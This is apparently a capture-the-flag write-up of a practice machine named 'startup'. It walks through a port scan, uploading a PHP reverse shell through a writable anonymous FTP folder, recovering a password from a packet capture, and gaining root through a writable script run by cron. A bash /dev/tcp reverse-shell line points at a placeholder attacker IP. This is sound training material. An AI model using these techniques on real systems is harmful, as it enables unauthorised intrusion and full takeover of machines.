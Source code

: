 ## Startup

The first thing I did was scanning the ip to see what ports were open:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux;)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

The first thing I did was exploring ftp, wich lead me to some unnecessary files and a particular `ftp` folder which we could write on:

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Jun 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

The `ftp` directory was empty so there was nothing more to see in ftp.

Since http was also open, I took a look at the website, wich looked pretty basic. I ran `gobuster` to find any hidden routes:

```
$ gobuster dir --url http://xx.xx.xxx.xxx/ --wordlist ../../../wordlists/directory_list_2.3_small.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.185.25/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../../../wordlists/directory_list_2.3_small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 312] [--> http://10.10.185.25/files/]
Progress: 87649 / 87649 (100.00%)
===============================================================
Finished
===============================================================
```

Exploring this `files/` route I ran into what seemed to be the ftp anonymous entry. My first though was to just inject a reverse shell file and get remote access to the machine. So using this [reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey I injected it onto the `ftp` directory:

```
ftp> put shell.php ftp/shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 9,4e-05 seconds (55,7 Mbytes/s)
```

> **Note:** Make sure to edit the required lines in `shell.php` like your machine's ip and port where you're going to be listening from.

After injecting the reverse shell, I began to listen in my machine's port:

```
nc -nlvp <PORT_NUMBER>
```

and simply went to the `ftp` directory on the website and selected our reverse shell file.

Perfect! Now I had access to the machine!

```
Connection from xx.xx.xxx.xxx:43714
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:31:00 up  1:24,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Now that I was in, I began to search for anything special. Simply after making `ls` I found what would be the first flag inside a file called `recipe.txt`.

Right after getting the flag, I went to the `/home` folder to see what users existed. I found one, `lennie`, which was protected by a password.

I saw a stranged looking directory called `incidents` and inside it was a pcapng file with the name `suspicious.pcapng`.

To get the file to my machine I copied it to the website's directory:

```
$ cp /incidents/suspicious.pcapng /var/www/html/files/ftp
```

Opening it on my machine (using `Wireshark`), I click on a packet to follow the TCP stream. There was a lot of information on stream 7, very much like the logs of a user interacting with the machine, including this interesting lines:

```
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
```

We can see that a user was trying to get in lennie's folder but since it was logged as `www-data` it tried to change user by typing some incorrect password. I tried connecting via ssh as `lennie` and:

```
 ssh lennie@xx.xx.xxx.xxx
lennie@xx.xx.xxx.xxx's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.


Last login: Fri Jun 28 15:14:07 2024 from xx.xx.xxx.xxx
$
```

I was in as `lennie`!

By running `ls` I found a file and two directories:

```
rwxr-xr-x  2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Jun 28 15:40 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
```

So there was the second flag, inside `user.txt`.

The `Documents` directory was full of useless information, but inside `scripts` there were two files:

```
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 Jun 28 16:52 startup_list.txt
```

The first thing I noticed was the `startup_list.txt`'s time of modification, which was exactly the same as my current time. At the time I didn't knew why that was happening so I began exploring both files. `startup_list.txt` was empty but `planner.sh` was a shell script:

```
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

It echoed a variable to the other file and then executes another shell script. This script was apparently owned by me (lennie) and it just echoed "Done!":

```
$ ls -l /etc | grep print
-rwx------ 1 lennie lennie   293 Jun 28 16:58 print.sh

$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

And this was it, I tried to see if there was some bin file wrongly configurated but there was not, so I was stuck for a while, until I rembered that `startup_list.txt` kept updating every minute. The only thing that could update this file was `planner.sh`, but if it wasn't me something had to be!

So if there was something executing `planner.sh`, which by itself executes `/etc/print.sh`, which I can modify, I figured that if I changed the behaviour of this file, I could figure out wich user was executing `planner.sh` by the minute, hopefully it was root so I could make some kind of RCE.

So to clear things up I added this line to `/etc/print.sh`:

```
echo 'test' > /home/lennie/test.txt
```

This would create a test file with the user I want to find out as the owner. Just as I wanted, the user executing `planner.sh` is really `root`!
```
rw-r--r-- 1 root root  5 Jun 28 17:10 test.txt
```
This meant I could write a command to spawn a remote shell and it was going to be execute as root.

So I added the following line to `print.sh` to do exactly that:

```
bash -i >& /dev/tcp/<YOUR_IP>/1235 0>&1
```

This would spawn the shell at my machine at port 1235.

By listening at that port:

```
nc -nlvp 1235
```

I was able to get the shell as root:

```
Connection from xx.xx.xxx.xxx:xxxx
bash: cannot set terminal process group (2875): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~#
```

Excelent! Simply by looking at the contents of the file `root.txt` we find the last flag!
